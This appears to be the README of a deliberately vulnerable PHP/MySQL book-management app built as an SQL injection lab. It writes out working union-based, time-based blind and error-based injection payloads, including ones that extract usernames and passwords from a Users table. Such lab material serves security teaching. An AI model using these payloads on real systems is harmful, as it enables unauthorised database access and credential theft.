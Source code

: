 # vulnerable-to-sqli
I developed a book control web application with php language. This application I developed using mysql is vulnerable to sql injection types. There are also blocked php codes against sql vulnerability. 

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/558074a1-862b-417d-9541-79461eab338c)

I have attached the detection and exploitation of vulnerabilities as screen photos.

# UNION-BASED SQLI
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/73240dc8-8851-4ae3-93a2-802473689421)

exploitation:

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/38461f5c-5ca3-4e70-8c5b-eb15991c32a5)

Payload to get table names:
1' UNION SELECT 1,table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/39745bb9-7d80-48cf-a712-80ac2dbb5e45)

Payload to get column names from Users table:
1' UNION SELECT 1,column_name,3,4,5,6 FROM information_schema.columns WHERE table_name='Users'-- -

Get credentials:
1' UNION SELECT 1,UserName,3,4,Password,6 FROM Users-- -

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/112d7862-0cc4-4a0a-ac13-2af79b0f97fb)

# BOOLEAN-BASED SQLI 
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/54aafe13-0a3b-4fe2-9b06-911adc99e9f8)

# TIME-BASED SQLI 
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/08a5cb0e-f216-43ad-8ff8-1ca389ad56ef)

Manipulate search query
Vulnerability detection with :
/search.php?search_query=Ethical Hacking Handbook' AND sleep(5) -- -

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/1b117164-ff3a-4df5-96de-5c8402df0b84)

I got 5 second delay as shown in the tool
According to 5 seconds of sleep, I got the first letter of the database with this payload: 
search.php?search_query=Ethical Hacking Handbook' AND IF(SUBSTRING(database(),1,1)='B',SLEEP(5),0) -- -
Other letters can also be obtained with the intruder tool of the burp tool.For example, to find the second letter of the database:
search.php?search_query=Ethical Hacking Handbook' AND IF(SUBSTRING(database(),2,1)='$set_ıntruder',SLEEP(5),0) -- -

# ERROR-BASED SQLI
' AND 1=CAST((SELECT 1) AS int)-- -
' AND 1=CAST((SELECT username FROM users) AS int)-- -
We got an error and gain the database name. 

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/118e0659-41cb-4751-af18-492149d81ff1)


